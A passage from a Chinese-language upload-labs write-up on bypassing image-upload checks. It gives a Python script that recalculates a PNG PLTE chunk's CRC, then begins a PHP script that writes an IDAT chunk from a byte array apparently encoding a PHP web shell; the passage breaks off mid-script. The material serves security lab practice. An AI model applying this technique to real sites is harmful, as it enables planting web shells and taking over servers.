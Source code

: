     2. 计算 PLTE 数据块的 CRC 脚本

        ```python
        import binascii
        import re

        png = open(r'2.png','rb')
        a = png.read()
        png.close()
        hexstr = binascii.b2a_hex(a)

        ''' PLTE crc '''
        data =  '504c5445'+ re.findall('504c5445(.*?)49444154',hexstr)[0]
        crc = binascii.crc32(data[:-16].decode('hex')) & 0xffffffff
        print hex(crc)
        ```
        运行结果 `526579b0`

    3. 修改 CRC 值

        ![](../../../../assets/img/安全/实验/Misc/upload-labs/15.png)

- **写入IDAT数据块**

    这里有国外大牛写的脚本,直接拿来运行即可.
    ```php
    <?php
    $p = array(0xa3, 0x9f, 0x67, 0xf7, 0x0e, 0x93, 0x1b, 0x23,
            0xbe, 0x2c, 0x8a, 0xd0, 0x80, 0xf9, 0xe1, 0xae,
            0x22, 0xf6, 0xd9, 0x43, 0x5d, 0xfb, 0xae, 0xcc,
            0x5a, 0x01, 0xdc, 0x5a, 0x01, 0xdc, 0xa3, 0x9f,
            0x67, 0xa5, 0xbe, 0x5f, 0x76, 0x74, 0x5a, 0x4c,
            0xa1, 0x3f, 0x7a, 0xbf, 0x30, 0x6b, 0x88, 0x2d,
            0x60, 0x65, 0x7d, 0x52, 0x9d, 0xad, 0x88, 0xa1,
            0x66, 0x44, 0x50, 0x33);



    $img = imagecreatetruecolor(32, 32);

    for ($y = 0; $y < sizeof($p); $y += 3) {
    $r = $p[$y];
    $g = $p[$y+1];
    $b = $p[$y+2];
    $color = imagecolorallocate($img, $r, $g, $b);
    imagesetpixel($img, round($y / 3), 0, $color);
    }
